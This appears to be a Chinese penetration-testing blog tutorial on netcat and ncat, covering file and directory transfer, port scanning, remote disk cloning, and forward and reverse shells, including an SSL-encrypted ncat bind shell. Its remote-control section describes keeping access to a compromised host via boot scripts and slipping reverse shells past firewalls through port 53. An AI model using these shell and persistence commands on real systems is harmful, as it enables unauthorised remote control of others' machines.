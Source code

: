 ```yaml
---
layout: post
title: "nc、ncat使用"
date: 2021-11-11
tags: [kali, 渗透测试]
comments: true
author: JumpWang

---
```


## natcat

> [v1.10-41.1+b1]
> connect to somewhere:   nc [-options] hostname port[s] [ports] ...
> listen for inbound:     nc -l -p port [-options] [hostname] [port]
> options:
>      -c shell commands       as `-e'; use /bin/sh to exec [dangerous!!]
>      -e filename             program to exec after connect [dangerous!!]
>      -b                      allow broadcasts
>      -g gateway              source-routing hop point[s], up to 8
>      -G num                  source-routing pointer: 4, 8, 12, ...
>      -h                      this cruft
>      -i secs                 delay interval for lines sent, ports scanned
>      -k                      set keepalive option on socket
>      -l                      listen mode, for inbound connects
>      -n                      numeric-only IP addresses, no DNS
>      -o file                 hex dump of traffic
>      -p port                 local port number
>      -r                      randomize local and remote ports
>      -q secs                 quit after EOF on stdin and delay of secs
>      -s addr                 local source address
>      -T tos                  set Type Of Service
>      -t                      answer TELNET negotiation
>      -u                      UDP mode
>      -v                      verbose [use twice to be more verbose]
>      -w secs                 timeout for connects and final net reads
>      -C                      Send CRLF as line-ending
>      -z                      zero-I/O mode [used for scanning]
> port numbers can be individual or ranges: lo-hi [inclusive];
> hyphens in port names must be backslash escaped (e.g. 'ftp\-data').

- 可用于电子取证

  实际上是传输文本的能力，~~可以用于聊天~~、从被取证对象上收集信息

  pc1：监听4444端口

  ```sh
  nc -l -p 4444
  ```

  pc2：连接目标网址的4444端口

  ```sh
  nc -nv 10.139.21.74 4444
  ```

- 传输文件

  A等B连上并将发送的数据存到1.mp4

  A：

  ```sh
  nc -lp 4444 > 1.mp4
  ```

  B：

  ```sh
  nc -nv 1.1.1.1 4444 < 1.mp4 -q 1
  ```

  -q 1 表示发送完1s自动关闭

  A等B连上一连上就向B发送mp4

  A:

  ```sh
  nc -lp 4444 < 1.mp4 -q 1
  ```

  B:

  ```sh
  nc -nv 1.1.1.1 4444
  ```

- 传输目录

  A:

  ```sh
  tar -cvf -music/ | nc -lp 4444 -q 1
  ```

  B:

  ```sh
  nc -nv 1.1.1.1 4444 | tar -xvf -
  ```

- 传输加密文件（使用mcrypt命令）

  A:

  ```sh
  nc -lp 4444 | mcrypt -flush -Fbqd -a rijndael-256 -m ecb > 1.mp4
  ```

  B:

  ```sh
  mcrypt -flush -Fbq -a rijndael-256 -m ecb < 1.mp4 | nc -nv 1.1.1.1 4444 -q 1
  ```

- 流媒体服务器

  A:

  ```sh
  cat 1.mp4 | nc -lp 4444
  ```

  B:

  ```sh
  nc -nv 1.1.1.1 4444 | mplayer -vo xll -cache 3000 -
  ```

- 端口扫描

  -z：扫描模式，探测端口状态

  ```sh
  nc -nvz 1.1.1.1 1-65535
  ```

  -u：nc默认扫描tcp，扫描udp需要使用-u

  ```sh
  nc -vnzu 1.1.1.1 1-1024
  ```

  但我在尝试的时候发现nc多个端口并没有任何回显，不知道是什么原因

- 远程克隆硬盘

  nc还是只起到传输的作用，关键在于`dd`命令，会原原本本的复制硬盘，复制每一个1和0，包括已删除的部分

  ```sh
  nc -lp 4444 | dd of=/dev/sda
  dd if=/dev/sda | nc -nv 1.1.1.1 4444 -q 1
  ```

- 运程控制

  ​	在成功通过漏洞进入目标主机后，可以通过这种方式继续保持连接，比如设置脚本在每次开机的时候使用。尤其是反向连接用处很大。

  ​	因为服务器基本上都配置了防火墙，像很多防护做的不太好的网络管理员也会在防火墙上将由外向内的陌生端口访问全部禁掉。比如只开放80端口，443端口之类的，这种情况下想要在目标主机开放一个端口等待连接，我们基本上是连接不上的（被防火墙过滤）。但是由内向外的访问这些防火墙不会阻止，反向连接就有了用场。

  ​	有些防护意识很好的管理员会禁用一些由内向外的访问的端口，但是像常用的端口也不会进行拦截，比如DNS解析用的53端口，我们就可以开放53端口等待连接。

  ​	如果是跑业务的服务器，向外的所有端口都被禁止了，那就没办法了。

  - 正向

    A：

    ```sh
    nc -lp 4444  -c bash
    ```

    B: 

    ```sh
    nc 1.1.1.1 4444
    ```

  - 反向

    A:

    ```sh
    nc -lp 4444
    ```

    B:

    ```sh
    nc 1.1.1.1 4444 -c bash
    ```

    nc是跨平台的，windows这里将bash换为cmd

## ncat

 nc的缺点：

- 明文传输，缺乏加密能力，可能遭受到嗅探、中间人的挟持等等等
- 缺乏身份验证的能力，打开的端口可以被所有人控制，我们留下的通道其他黑客也能使用

ncat是nmap内包含的一个工具，是为了弥补nc的缺陷被开发出来的，使用ncat进行信息传输，传输的管道本身是被加密的

A（被控端）：

`--allow`是指定一个ip，允许这个ip连接

```sh
ncat -c bash --allow 1.1.1.1 -vnl 4444 --ssl
```

B：

```sh
ncat -nv 1.1.1.1 4444 --ssl
```

# 